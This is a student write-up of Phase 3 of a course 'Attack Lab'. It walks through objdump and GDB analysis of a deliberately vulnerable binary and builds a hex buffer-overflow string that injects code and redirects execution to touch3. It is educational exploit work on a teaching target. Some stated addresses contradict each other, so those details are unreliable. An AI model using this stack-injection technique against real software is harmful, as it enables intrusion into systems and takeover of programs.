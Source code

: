 # Phase 3

## Attack Lab Spec

Phase 3 also involves a code injection attack, but passing a string as argument.
Within the file ctarget there is code for functions hexmatch and touch3 having the following C
representations:
```
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
  char cbuf\[110];
  /* Make position of check string unpredictable */
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */
  if (hexmatch(cookie, sval)) {
    printf("Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  } else {
    printf("Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```
Your task is to get `CTARGET` to execute the code for `touch3` rather than returning to `test`. You must
make it appear to `touch3` as if you have passed a string representation of your cookie as its argument.

**Some Advice:**

• You will need to include a string representation of your cookie in your exploit string. The string should consist of the eight hexadecimal digits (ordered from most to least significant)
without a leading “0x.”  
• Recall that a string is represented in C as a sequence of bytes followed by a byte with value 0. Type “man ascii” on any Linux machine to see the byte representations of the characters you need.  
• Your injected code should set register %rdi to the address of this string.  
• When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where
you place the string representation of your cookie.

Among other things the following image was provided. It is also useful to note that c3 is the hex encoding for the ret instrucition.
![image](https://github.com/Motik7/AttackLab-Writeup/assets/60900283/5eb247a9-f732-44bc-9ae4-75f597f749e4)

## Analysis

It's clear that we need to get to `touc32` from `getbuf`. Looking at `getbuf` in cobjectdum we see the following code:  
```
00000000004017be <getbuf>:                        
4017be:	48 83 ec 18          	sub    $0x18,%rsp     
4017c2:	48 89 e7             	mov    %rsp,%rdi      
4017c5:	e8 30 02 00 00       	callq  4019fa <Gets>  
4017ca:	b8 01 00 00 00       	mov    $0x1,%eax      
4017cf:	48 83 c4 18          	add    $0x18,%rsp     
4017d3:	c3                   	retq                
```

Looking at the code, we see the following things happen. We put 0x18 bytes of storage on the stack, and then put our stack pointer into `%rdi`. The function `Gets` is then called which we can assume
inputs whatever we enter into the stack. This pens up the opportunity for code injection. For phase 3, this is injecting our cookie as a string into `%rdi` and then calling `touch3`. Therefore, if we can inject 0x18 bytes of random values and then the address of `touch3` when `retq` attempts to return to the address pointed to by rsp, it'll be our address. Looking again through the object dumb for `touch3` we see  
`00000000004018d4 <touch3>`  
which tells us that our `touch3` function is at address 0x401800. We remember that x86-64 operates on little endian, and thus in our string the address must be formatted correctly.

However, before we can enter `touch3` we first must put our cookie as a string into register `%rdi`. To do this, we'll have to take our return address into some code that we'll write to put the cookie into `%rdi`. We can accomplish this by writing code within the 0x18 initial string bytes, and then returning within it which will begin running the code. However, we need to know where that is. To accomplish that goal, we'll use GDB on ctarget. 

### GDB Analysis

#### Finding `%rsp`

Before that, we need to know where to set certain breakpoints to be able to inspect our code well. A valuable place to put the breakpoint would be `getbuf` since ultimately it is where we do our injection, and will show us where the stack pointer `%rsp` is at any moment we choose to see. GDB allows us to simply put breakpoints at functions using `b <function_name>` so using `b getbuf` will put a breakpoint at the right spot. We then run with `r` and for now we won't include any argument. We hit the breakpoint and use `i r` to show information regarding the registers. We see that  
`rsp            0x556424c0          0x556424c0`  
which gives us a good idea of where `%rsp` is, however it's not the one that we want. At this point, we haven't decremented the stack, and while we could manually deduct 0x18 from the value we see, it's easier to run `si` and let the code do it for us. Thus, we see  
`rsp            0x556424a8          0x556424a8`  
From this, we now know where our string starts, and where we could potentially inject code. We have confirmation this does not change between runs, so we can safely continuously use this.

## Solution

Now that we have all of the information we need, we can put it all together. The plan of attack is to inject two pieces of code, a `pop rdi` and a `ret`. Referring to the info provded above, these are `5f` and `c3` respectively. We still need to pad out the rest of the 0x18 so we are now at  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`  
Now we need to go to our injected code. From our GDB analysis, we see that the string starts at 0x556425a8. Therefore we add this in overwriting the return address of `getbuf`. Using little endian notation as is required, this yields  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55`  
However, we are still not done. Consider that `pop rdi` pops whatever `%rsp` points to and puts it into `%rdi`. The `retq` in `getbuf` will move `%rsp` past the return address we injected. We therefore need to append what we want in `%rdi` after our return address. We look in cookie.txt to see that our cookie is 0x32bf3fc2. Therefore, following little endian protocol we append it to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 c2 3f bf 32`  
This will not work. The reason for this is that ret reads 8 bytes and we have only provided 4. This will not work as intended, so we pad it out to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 c2 3f bf 32`  
This also does not work but for a different reason. A string is just a pointer to a certain area of memory that contains the string. Therefore, `%rdi` needs to hold a memory address, not our actual string. To accomplish this I put the string later in the buffer and then did some hex math to figure out where it is in memory. I then converted the cookie into hex since that's what `hexmatch` wants yielding a final result of  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 e0 24 64 55 00 00 00 00 d4 18 40 00 00 00 00 00 00 00 00 00 00 00 00 00 33 32 62 66 33 66 63 32 00 00 00 00`
